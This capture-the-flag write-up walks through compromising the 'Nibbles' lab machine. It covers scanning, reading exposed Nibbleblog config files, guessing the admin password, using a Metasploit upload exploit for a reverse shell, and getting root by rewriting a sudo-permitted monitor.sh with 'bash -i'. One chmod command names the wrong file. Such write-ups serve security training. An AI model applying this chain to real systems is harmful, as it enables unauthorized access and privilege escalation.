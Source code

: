 <b>

# Information Gathering
First i ping the target 4 times to ensure good connection:<br>
`ping -c 4 10.10.10.75`
```
PING 10.10.10.75 (10.10.10.75) 56(84) bytes of data.
64 bytes from 10.10.10.75: icmp_seq=1 ttl=63 time=109 ms
64 bytes from 10.10.10.75: icmp_seq=2 ttl=63 time=108 ms
64 bytes from 10.10.10.75: icmp_seq=3 ttl=63 time=108 ms
64 bytes from 10.10.10.75: icmp_seq=4 ttl=63 time=108 ms
```
After that i ran nmap with `-Pn` to not check if the host is alive and `-sVC` for version and script enumeration:<br>
`nmap -sVC -Pn 10.10.10.75`
```
Nmap scan report for 10.10.10.75
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 c4:f8:ad:e8:f8:04:77:de:cf:15:0d:63:0a:18:7e:49 (RSA)
|   256 22:8f:b1:97:bf:0f:17:08:fc:7e:2c:8f:e9:77:3a:48 (ECDSA)
|_  256 e6:ac:27:a3:b5:a9:f1:12:3c:34:a5:5d:5b:eb:3d:e9 (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: Apache/2.4.18 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
Then i ran `whatweb` to gather additional information about the website:<br>
`whatweb -a 3 10.10.10.75`
```
http://10.10.10.75 [200 OK] Apache[2.4.18], Country[RESERVED][ZZ], HTTPServer[Ubuntu Linux][Apache/2.4.18 (Ubuntu)], IP[10.10.10.75]
```
After checking the source code for the page i found this:<br>
![image](https://github.com/user-attachments/assets/cea217ff-0f73-4330-9765-f02383d391aa)

Browsing to the directory revealed blog page<br>
I ran feroxbuster which showed that the directories were readable:
![image](https://github.com/user-attachments/assets/b6297995-cf2b-42fd-96a0-f940124852d8)

The important one was this:<br>
`http://10.10.10.75/nibbleblog/content/private/`

Two of them revealed login information:
```
http://10.10.10.75/nibbleblog/content/private/users.xml
http://10.10.10.75/nibbleblog/content/private/config.xml
```
And one revealed the version of `Nibbleblog` was 4.0.3:<br>
`http://10.10.10.75/nibbleblog/README`
# Vulnerability Assessment
Looking up "`Nibbleblog 4.0.3 explot`" gave me this:<br>
https://www.exploit-db.com/exploits/38489

The exploit allows RCE due to upload vulnerability that allows to upload a reverse shell<br>
It is mentioned that there is `metasploit` module and for the exploit to work, we need to be authenticated<br>
Unfortunetly we only have username `admin`, after trying a couple common combinations:<br>
- `admin:admin`
- `admin:root`
- `admin:test`

I saw this in `http://10.10.10.75/nibbleblog/content/private/config.xml`:<br>
![image](https://github.com/user-attachments/assets/6257d40c-d085-4340-bf8d-e178299a1f8b)
<br>And after trying `admin:nibbles` at the login form (`http://10.10.10.75/nibbleblog/admin.php`)<br>
We got redirected to the dashboard
# Exploitation
Now that we have the credentials, we can fire `msfconsole` and use the module to get a reverse shell:<br>
![image](https://github.com/user-attachments/assets/6c3f9f09-0807-4cd0-854f-fcc12197fa27)
<hr>

Select it:
![image](https://github.com/user-attachments/assets/4873443b-6381-47af-bf15-b14a9e9fd95e)
<hr>

And finally set the options & run it:<br>
![image](https://github.com/user-attachments/assets/33fb797a-cc19-4864-be9c-ca613cdd60d8)
<hr>

Once the terminal shows `meterpreter >` we can type `shell` to get a reverse shell<br>
# Post-Exploitation
After that we can run `python3 -c 'import pty; pty.spawn("/bin/sh")'` in order to get interactive shell
We run as the user "`nibbler`" and going to the `/home` directory and inside nibbler, we can get the `user.txt` flag
<hr>

After running `sudo -l` we get this output:
```
User nibbler may run the following commands on Nibbles:
    (root) NOPASSWD: /home/nibbler/personal/stuff/monitor.sh
```

There is also a zip file called `personal.zip`<br>
Running `unzip personal.zip` and then navigating through the directories, we find `monitor.sh`<br>
If we do `ls -la` we notice that we have the permission to not only read but also write<br>

In that case, we can just do:
- `rm monitor.sh`
And create new one with `bash -i` inside like so:
- `echo "bash -i" > monitor.sh`

Then by allowing execution and running it, we can become root:
- `chmod +x monitored.sh`
- `sudo ./monitor.sh`

The root flag is found at `/root/root.txt`
</b>
